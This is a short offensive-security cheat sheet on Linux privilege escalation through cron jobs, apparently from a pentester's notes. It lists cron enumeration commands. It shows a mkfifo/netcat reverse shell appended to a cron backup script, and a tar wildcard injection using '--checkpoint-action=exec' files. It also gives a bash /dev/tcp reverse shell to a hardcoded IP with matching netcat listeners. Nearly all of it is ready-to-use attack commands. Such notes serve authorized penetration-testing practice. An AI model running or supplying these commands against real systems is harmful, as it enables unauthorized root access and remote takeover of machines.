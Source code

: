 # Cron jobs

_<mark style="background-color:purple;">**Enumerate cron jobs**</mark>_

```sh
ls -lah /etc/cron*
sudo crontab -l
grep "CRON" /var/log/syslog
cat /etc/cron.d/*
```

_<mark style="background-color:purple;">**add a reverse shell to cronjob**</mark>_

{% code overflow="wrap" %}
```powershell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 1234 >/tmp/f" >> user_backups.sh
```
{% endcode %}

`nc -lvnp 1234`&#x20;



### Cron jobs with tar wildcards:

* e.g `CRON[185223]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)`

Create 2 special files for tar:

```sh
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

Create shell.sh:

{% code overflow="wrap" %}
```sh
echo "bash -i >& /dev/tcp/192.168.45.214/1111 0>&1" > shell.sh

chmod +x shell.sh
```
{% endcode %}

Set up listener on kali:

`nc -lvnp 1111`
